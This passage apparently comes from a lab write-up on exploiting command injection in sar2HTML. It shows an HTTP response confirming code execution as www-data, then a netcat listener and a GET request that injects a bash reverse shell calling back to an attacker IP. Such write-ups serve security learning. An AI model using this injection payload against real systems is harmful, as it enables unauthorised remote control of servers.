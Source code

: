 #### response
```http
HTTP/1.1 200 OK
Date: Wed, 02 Feb 2022 21:49:19 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 5793
Connection: close
Content-Type: text/html; charset=UTF-8

...
<option value=www-data>www-data</option>
...
```

> Yay! We got code execution :-)
{: .prompt-info }

---

# post exploitation

## reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80             
listening on [any] 80 ...
```

### send command to target
Payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.173/80 0>&1'`
```http
GET /sar2HTML/index.php/index.php?plot=;bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.173/80+0>%261' HTTP/1.1
Host: 192.168.173.35
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=di3j28bd8phhpgldrvdiuv7aiq
Connection: close
```

